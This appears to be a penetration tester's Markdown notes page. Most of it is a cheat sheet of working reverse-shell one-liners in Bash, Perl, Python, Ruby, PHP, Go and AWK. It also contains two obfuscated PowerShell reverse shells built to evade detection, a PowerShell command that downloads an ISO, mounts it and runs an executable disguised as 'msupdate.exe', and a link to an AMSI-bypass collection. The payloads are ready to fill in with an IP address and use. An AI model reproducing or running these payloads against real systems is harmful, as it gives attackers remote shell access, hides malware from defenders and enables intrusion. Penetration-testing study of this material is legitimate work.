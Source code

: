 # General Notes

## Pre-requisites for running exploits

- Check the version of the operating system.
- Check the software version.
- Check if there is exploit for it (Searchsploit, ExploitDB, Google, etc).
- If you have an exploit, is there a Metasploit Module for it?


## Default Credentials

- https://cirt.net/passwords
- https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials

## Reverse Shells

### Online Reverse Shell Generators:
- https://www.revshells.com/
- https://shellgenerator.github.io/

### Hosting Revshells Locally: 
1. `git clone https://github.com/0dayCTF/reverse-shell-generator`
2. `docker build -t reverse_shell_generator .`
3. `docker run -d -p 80:80 reverse_shell_generator`

### Other Reverse Shell:
Bash: 

- `bash -i >& /dev/tcp/IP ADDRESS/8080 0>&1`

Perl:

```
perl -e 'use Socket;$i="IP ADDRESS";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Python: 

- `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP ADDRESS",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

IPv6: 

- `python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4343,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");'` 

Ruby:

- `ruby -rsocket -e'f=TCPSocket.open("IP ADDRESS",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`
- `ruby -rsocket -e 'exit if fork;c=TCPSocket.new("[IPADDR]","[PORT]");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'`

PHP:

Pentest Monkey Reverse Shell for PHP:
In Kali: 

`/usr/share/webshells/php/php-reverse-shell.php`

Link: http://pentestmonkey.net/tools/web-shells/php-reverse-shell

- `php -r '$sock=fsockopen("IP ADDRESS",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`

Windows Powershell Oneliner: 

Note: To change the IP Address replace the number values in Check.for.Callback.Connection. To change the port pick your own numeric values to equal the number you want your shell to callback to you. 

```powershell
# Offsec-callback-v2
$ezYSZf = & ((Get-Command "New-ScheduledJobOption").name[0,1,2,3,14,15,13,1,5,18] -join '') ([string]::join('', ( (83,121,115,116,101,109,46,78,101,116,46,83,111,99,107,101,116,115,46,84,67,80,67,108,105,101,110,116) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_})("Check.for.Callback.Connection".Replace("Check",127).Replace("For",0+255-255).Replace("Callback", 0+234-234).Replace("Connection",0+0+0+1),(443*2-443));
$VXm = $ezYSZf.GetStream();
# checkin to target
[byte[]]$0bLXRjHKPvWQUhq = (10023-10023)..(13107*5)|<##>%{$_}<##>|%{0};
while(($i = $VXm.Read($0bLXRjHKPvWQUhq, 0, $0bLXRjHKPvWQUhq.Length)) -ne 0)
{;
$Tc9dYRLI5 = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($0bLXRjHKPvWQUhq,0, $i);
$sendback = (iex $Tc9dYRLI5 2>&1 |<##>%{$_}<##>| Out-String );
# AND
$YzlnHIRT = $sendback + $(([string]::join('', ( (80,83,32) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_})) + (pwd).Path + $(([string]::join('', ( (62,62,32) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_}));
$sdfghjklASDA222 = ([text.encoding]::ASCII).GetBytes($YzlnHIRT);
$VXm.Write($sdfghjklASDA222,0,$sdfghjklASDA222.Length);$VXm.Flush()
};
Start-Sleep -Seconds 5
# checkout of target
$ezYSZf.Close()
```

Powershell ISO Oneliner:

```powershell
powershell -c "(New-Object System.Net.WebClient).DownloadFile('https://172.21.1.0/windows.iso', 'C:\Windows\Tasks\windows.iso'); $MountedImage = Mount-DiskImage -ImagePath 'C:\Windows\Tasks\windows.iso' -PassThru; Start-Process -FilePath ($MountedImage | Get-Volume).DriveLetter + ':\msupdate.exe'; dismount-DiskImage -ImagePath $MountedImage.ImagePath"
```

Linux Powershell Oneliner:

```powershell
$ezYSZf = & (("New-ScheduledJobOption")[0,1,2,3,14,15,13,1,5,18] -join '') ([string]::join('', ( (83,121,115,116,101,109,46,78,101,116,46,83,111,99,107,101,116,115,46,84,67,80,67,108,105,101,110,116) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_})("Stay.Off.Ronins.Lawn".Replace("Stay",127).Replace("Off",0+255-255).Replace("Ronins", 0+1-1).Replace("Lawn",0+0+0+1),(443*2-443));
$VXm = $ezYSZf.GetStream();
[byte[]]$0bLXRjHKPvWQUhq = (10023-10023)..(13107*5)|<##>%{$_}<##>|%{0};
while(($i = $VXm.Read($0bLXRjHKPvWQUhq, 0, $0bLXRjHKPvWQUhq.Length)) -ne 0)
{;
$Tc9dYRLI5 = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($0bLXRjHKPvWQUhq,0, $i);
$sendback = (iex $Tc9dYRLI5 2>&1 |<##>%{$_}<##>| Out-String );
$YzlnHIRT = $sendback + $(([string]::join('', ( (80,83,32) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_})) + (pwd).Path + $(([string]::join('', ( (62,62,32) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_}));
$sdfghjklASDA222 = ([text.encoding]::ASCII).GetBytes($YzlnHIRT);
$VXm.Write($sdfghjklASDA222,0,$sdfghjklASDA222.Length);$VXm.Flush()
};
$ezYSZf.Close()
```

Golang: 

- `echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","IP ADDRESS:8080");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go`

AWK: 

- `awk 'BEGIN {s = "/inet/tcp/0/IP ADDRESS/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null`


Other Reverse Shell: 
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md


## Other Resources 

- Amsi-Bypass-Powershell: https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell